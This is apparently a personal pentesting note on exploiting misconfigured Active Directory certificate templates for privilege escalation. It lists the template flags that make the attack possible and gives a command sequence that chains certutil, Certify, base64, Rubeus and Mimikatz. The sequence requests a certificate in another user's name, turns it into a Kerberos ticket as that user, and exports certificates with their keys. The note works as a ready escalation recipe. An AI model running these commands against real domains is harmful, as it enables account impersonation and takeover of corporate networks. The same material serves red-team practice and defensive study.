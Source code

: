 # Exploiting Certificate Misconfigurations
Four attributes are required for a certificate misconfiguration to lead to privilege escalation:
- Client Authentication
- CT_FLAG_ENROLEE_SUPPLIES_SUBJECT
- CTPRIVATEKEY_FLAG_EXPORTABLE_KEY
- Certificate Permissions

We can view all certificate templates using the following windows utility.

```powershell
certutil -Template -v > templates.txt
```

Using [[Certify]]:
```powershell
Certify.exe cas # Output all certificate authorities
Certify.exe find /vulnerable # Identify vulnerable certificates in the environment
Certify.exe request /ca:<ca> /template:<template> /altname:<username> # Output a certificate as the requested user with an example openssl command to convert for usage with Rubeus
cat cert.pfx | base64 -w 0 # Convert for Rubeus
Rubeus.exe asktgt /user:<username> /certificate:<base64 cert> /password:<cert pass> /nowrap # Get a TGT as the requested user
```
If a achine account is requested, certify has to be told manually with the `/machine` flag.

Alternative, enumerate existing certificates with [[Seatbelt]]
```powershell
Seatbelt.exe Certificates # Enumerate certificates (make sure it can be used for client authentication)
```

Export with [[Mimikatz]]
```powershell
mimikatz.exe crypto::certificates /export /enctype:aes256 # This will export the pfx files with password "mimikatz"
```
